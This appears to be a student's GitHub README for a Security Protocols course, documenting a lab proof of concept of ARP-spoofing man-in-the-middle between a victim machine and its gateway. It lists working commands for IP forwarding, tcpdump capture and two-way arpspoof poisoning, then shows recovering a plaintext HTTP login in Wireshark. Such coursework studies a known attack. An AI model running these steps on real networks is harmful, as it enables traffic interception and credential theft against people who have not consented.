 # MitM-ARP-Spoofing
This is a PoC of the MitM ARP Spoofing attack for the course Security Protocols.

# Attack
ARP Spoofing is a MitM attack in which the attacker sends forged ARP messages.
This fools the victim that the attacker is a legitimate user, by linking the
attacker's MAC address to a legitimate ip address.

The attack works as it follows:
1. The attacker scans the network to find the ip address of the victim and the
gateway
2. The attacker starts sending forged ARP responses
3. The forged responses tell the gateway and the victim that the attacker's
MAC address is the correct one and both, the gateway and victim, connect to
the attacker's machine instead of each other
4. The ARP cache entries are updated and the attacker can intercept the traffic
between victim and router.

# Topology
For this PoC we used two Ubuntu 20.10 machines:
* Attacker - ip address: 192.168.1.9/24
* Victim - ip address: 192.168.1.10/24 
* Gateway - ip address: 192.168.1.1/24 

# Attacker
The first thing to be done on the attacker's machine is to enable ip forwarding
using the following command:
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```
This way, when the attacker receives packets from the victim, they will be then
forwarded to the destination ip address.

Next, the attacker will start analyzing the network traffic and all the packets
that are created or received by the attacker will be captured within a file that
will be used at the end of the attack. This is done by using the *tcpdump*
command as it follows:
```
tcpdump -i enp0s3 -Z root -w capture.pcap
```

Finnaly, the attacker can start the ARP spoofing. By running the following commands
the attacker captures the traffic victim -> router and router -> victim. 

```
sudo arpspoof -i enp0s3 -t 192.168.1.10 192.168.1.1 > /dev/null 2> /dev/null &

sudo arpspoof -i enp0s3 -t 192.168.1.1 192.168.1.10 > /dev/null 2> /dev/null &
```


# Victim
From the victim machine we can start sending HTTP requests. We choosed the
[TestYou](http://testyou.in/Login.aspx) platform as it is using standard HTTP and all the information
is sent in clear text.
For this we used the curl command as it follows:
```
curl -u deea:VAI_CE_MI_PLACE_SCOALA http://testyou.in/Login.aspx
```

## Attention! 
After the attack, make sure to close the tcpdump process, otherwise the
capture will not be saved!

# Results
To check that the attack worked we used a tool called [Wireshark](https://www.wireshark.org/).
The file that contains the captured packets, *capture.pcap*, is added to
Wireshark and we will filter the data so that we can see only the HTTP stream.
Now we get the one containin the GET request and, as we can see from the
![screenshot](Wireshark.jpeg), we can detect the username and password.